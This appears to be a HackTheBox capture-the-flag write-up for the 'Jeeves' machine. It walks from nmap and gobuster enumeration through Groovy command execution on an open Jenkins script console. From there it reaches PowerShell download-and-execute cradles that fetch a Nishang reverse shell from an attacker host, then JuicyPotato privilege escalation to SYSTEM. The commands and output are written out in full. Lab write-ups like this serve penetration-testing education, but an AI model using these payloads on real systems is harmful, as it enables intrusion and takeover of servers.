



hackthebox Jeeves
Released: 11th November 2019 / Pwned: 31st October 2019 - [+] Solved whilst Retired

Jeeves has a Jenkins installation where you can run Groovy Script code to gain a shell on the system. Once on the box, you can elevate your shell to SYTSEM using JuicyPotato (although I think JuicyPotato is an unintended method).
Exploits
• JuicyPotato - https://github.com/ohpe/juicy-potato
Links
• https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Network-Assessment/Jenkins/Jenkins_hacking.md
• https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password
• https://medium.com/@exgq/hacking-jenkins-68f7f6a810eb
• https://blogs.technet.microsoft.com/askcore/2013/03/24/alternate-data-streams-in-ntfs/
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.63
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p <open ports> -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.63
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
┌─[root@parrot]─[/ctf/jeeves]
└──╼ #mkdir nmap
┌─[root@parrot]─[/ctf/jeeves]
└──╼ #nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.63
[...]
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
445/tcp open microsoft-ds
50000/tcp open ibm-db2
┌─[root@parrot]─[/ctf/jeeves]
└──╼ #nmap -p 80,135,445,50000 -sV -sC -O -oN nmap/tcp-open.txt 10.10.10.63
[...]
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open http Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows 10 1511 - 1607 (87%)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
Analysis:
• 80/http - Ask Jeeves! Nothing to find here. The links are garbage and no gobuster results.
• 445/SMB - NULL sessions aren't allowed, so credentials are required to access SMB. Nothing to do here for the time being
• 50000/http - Another, more hidden, webserver...
2) 50000/http - Jetty
Jetty is a Java HTTP server by Eclipse.
According to wikipedia, it's often used for machine to machine communications.
The intial page yields an error.
But gobuster finds a working directory - /askjeeves
┌─[root@parrot]─[/ctf/jeeves/http50]
└──╼ #gobuster dir -e -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.asp,.aspx -s 200,204,301,302,307,401,403,500 -o gb2.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.10.63:50000
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403,500
[+] User Agent: gobuster/3.0.1
[+] Extensions: txt,asp,aspx
[+] Expanded: true
[+] Timeout: 10s
===============================================================
2019/10/31 18:26:21 Starting gobuster
===============================================================
http://10.10.10.63:50000/askjeeves (Status: 302)
2a) /askjeeves/ - Jenkins
/askjeeves/ is the URL of a Jenkins installation.

Jenkins is automation software designed to help developers to run/build/test/deploy software each time a developer updates the source code.
By default, Jenkins doesn't require a password.
2b) Jenkins Code Execution - /script
Jenkins has a Groovy Script console at /script (Manage Jenkins > Script Console), where we can execute system commands.
http://10.10.10.63:50000/askjeeves/script
There are 2 ways to execute system commands in the Groovy Script console:
Option 1)
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'cmd.exe /c whoami'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
Option 2)
println “cmd.exe /c whoami�.execute().text
I used option 2.

From here, we can get a shell on the system.
I used Nishang's Invoke-PowerShellTcp.ps1, served it to the target machine with python -m SimpleHTTPServer, and used the Groovy Script console to download & execute the script to achieve a shell on the system.
Gain Access
3) Nishang + Groovy Script
Nishang is available here - https://github.com/samratashok/nishang
Nishang's Invoke-PowerShellTcp.ps1 script can be used to send a reverse shell back our attacking system.
Copy Invoke-PowerShellTcp.ps1 to your working directory, or download it from github if you don't have it.
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #locate Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Edit Invoke-PowerShellTcp.ps1.
At the end of the script, configure the IP address and port you want to the script to call back to (your attacking machine, basically).
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #nano Invoke-PowerShellTcp.ps1
[...]
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 9001
Start a listener to receive the shell on the port you just specified
┌─[root@parrot]─[/ctf/jeeves]
└──╼ #nc -lnvp 9001
listening on [any] 9001 ...
And serve the script to the taret with python -m SimpleHTTPServer
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
We've set up a listener to receive the shell, and have set up a web server to serve the Nishang script to the target.
Send a command to the Script Console to download the Nishang script from your attacking host.
println "cmd.exe /c powershell -c \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12:8000/Invoke-PowerShellTcp.ps1')\"".execute().text
You should receive a shell on your listener!
Grab user.txt :)
[...]
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.63] 49678
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\Administrator\.jenkins> cat C:\Users\kohsuke\Desktop\user.txt
e3232272596f...
Priv-Esc to SYSTEM
4) JuicyPotato.exe
Check what privileges you have.
PS C:\Users\Administrator\.jenkins>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
With SeImpersonatePrivilege enabled, we can use the JuicyPotato exploit to execute commands as SYSTEM.
The JuicyPotato info & binary is available here - https://github.com/ohpe/juicy-potato
To get a shell with JuicyPotato, you create a .bat script containg the commands you want JuicyPotato to run as SYSTEM. You then run JuicyPotato, point to your .bat file, and the commands in your .bat file will run as root.
To get a shell as SYSTEM, I used Nishang again.
I wrote a powershell command to download & execute Invoke-PowerShellTcp.ps1 into a .bat file, and had JuicyPotato execute it.
4a) Prep Nishang shell & .bat file
Prep Invoke-PowerShellTcp.ps1 to send a reverse shell back to your attacking system.
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./InvokePowerShellTcp9003.ps1
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #nano Invoke-PowerShellTcp9003.ps1
[...]
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 9003
Start a listener on your attacking machine to receive the nishang reverse shell
┌─[root@parrot]─[/ctf/jeeves]
└──╼ #nc -lvnp 9003
listening on [any] 9003 ...
Create a .bat file which downloads your Invoke-PowerShellTcp.ps1 from your attacking machine.
┌─[✗]─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #nano adminshell.bat
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12:8000/Invoke-PowerShellTcp9003.ps1')"
4b) Serve JuicyPotato and .bat to the target sytsem
Download JuicyPotato to your attacking system.
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #wget -q https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
Serve JuicyPotato and your .bat file to the target machine with python -m SimpleHTTPServer
┌─[root@parrot]─[/ctf/jeeves/serve]
└──╼ #python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
And download the files from your attacking machine to the target
PS C:\Users\kohsuke\Desktop> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12:8000/JuicyPotato.exe','C:\Users\kohsuke\Desktop\JuicyPotato.exe')
PS C:\Users\kohsuke\Desktop> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12:8000/adminshell.bat','C:\Users\kohsuke\Desktop\adminshell.bat')
PS C:\Users\kohsuke\Desktop> dir
Directory: C:\Users\kohsuke\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 10/31/2019 9:11 PM 114 adminshell.bat
-a---- 10/31/2019 9:09 PM 347648 JuicyPotato.exe
-ar--- 11/3/2017 11:22 PM 32 user.txt
4c) JuicyPotato to SYSTEM
Run JuicyPotato to exploit the system!
-t * - to try both CreateProcessWithTokenW and CreateProcessAsUser create process calls
-p - to specify the program/command to run (your .bat script)
-l - to specify a random COM port to listen on
PS C:\Users\kohsuke\Desktop> .\JuicyPotato.exe -t * -p adminshell.bat -l 6767
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 6767
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
JuicyPotato ran as SYSTEM successfully!
You should should see your nishang reverse shell being downloaded from your attacking machine
10.10.10.63 - - [31/Oct/2019 20:13:34] "GET /Invoke-PowerShellTcp9003.ps1 HTTP/1.1" 200 -
And a SYTSEM shell on your listener!
┌─[root@parrot]─[/ctf/jeeves]
└──╼ #nc -lvnp 9003
listening on [any] 9003 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.63] 49697
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Windows\system32>whoami
nt authority\system
We're SYSTEM!
But, according to the author, the flag is elsewhere :/
PS C:\Windows\system32> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> dir
Directory: C:\Users\Administrator\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 12/24/2017 2:51 AM 36 hm.txt
-a---- 11/8/2017 9:05 AM 797 Windows 10 Update
Assistant.lnk
PS C:\Users\Administrator\Desktop> cat hm.txt
The flag is elsewhere. Look deeper.
5) Find Hidden root.txt
“look deeper" made me think of Alternate Data Streams i.e. hiding files in other files.
https://blogs.technet.microsoft.com/askcore/2013/03/24/alternate-data-streams-in-ntfs/
Check for an alternate data stream in hm.txt with Get-item and the -stream flag.
PS C:\Users\Administrator\Desktop> Get-item -Path C:\Users\Administrator\Desktop\hm.txt -stream *
FileName: C:\Users\Administrator\Desktop\hm.txt
Stream Length
------ ------
:$DATA 36
root.txt 34
Looks like hm.txt is hiding root.txt.
Go grab it.
PS C:\Users\Administrator\Desktop> Get-Content -Path C:\Users\Administrator\Desktop\hm.txt -Stream root.txt
afbc5bd4b615a60648cec41c6ac92530